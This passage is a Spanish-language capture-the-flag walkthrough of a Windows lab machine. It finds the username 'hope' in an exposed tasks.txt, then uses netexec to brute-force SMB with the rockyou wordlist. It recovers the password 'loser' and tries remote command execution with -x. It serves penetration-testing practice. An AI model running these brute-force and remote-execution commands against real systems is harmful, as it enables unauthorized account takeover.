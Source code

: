 Veremos un directorio interesante llamado `tasks.txt` si entramos dentro veremos lo siguiente:

```
URL = http://<IP>/tasks.txt
```

Info:

```
Pending tasks:

 - Finish website
 - Update OS
 - Drink coffee
 - Rest
 - Change password

By hope
```

Vemos un nombre de usuario llamado `hope`, vamos a realizar fuerza bruta con `netexec` de esta forma.

## NetExec

Antes vamos a pasar el `rockyou.txt` a `UTF-8` para que no de ningun error.

```shell
iconv -f ISO-8859-1 -t UTF-8 /usr/share/wordlists/rockyou.txt -o rockyou-utf8.txt
```

Una vez echo esto, vamos a utilizarlo de esta forma.

```shell
netexec smb <IP> -u hope -p rockyou_utf8.txt
```

Info:

```
SMB         192.168.5.68    445    ADMIN            [*] Windows 10 / Server 2019 Build 19041 x64 (name:ADMIN) (domain:ADMIN) (signing:False) (SMBv1:False)
...........................<RESTO_DE_INTENTOS>.....................................
SMB         192.168.5.68    445    ADMIN            [+] ADMIN\hope:loser
```

Vemos que hemos encontrado unas credenciales, vamos a probarlas de esta forma.

```shell
netexec smb <IP> -u hope -p loser -x "id"
```

Info:

```
SMB         192.168.5.68    445    ADMIN            [*] Windows 10 / Server 2019 Build 19041 x64 (name:ADMIN) (domain:ADMIN) (signing:False) (SMBv1:False)
SMB         192.168.5.68    445    ADMIN            [+] ADMIN\hope:loser
```
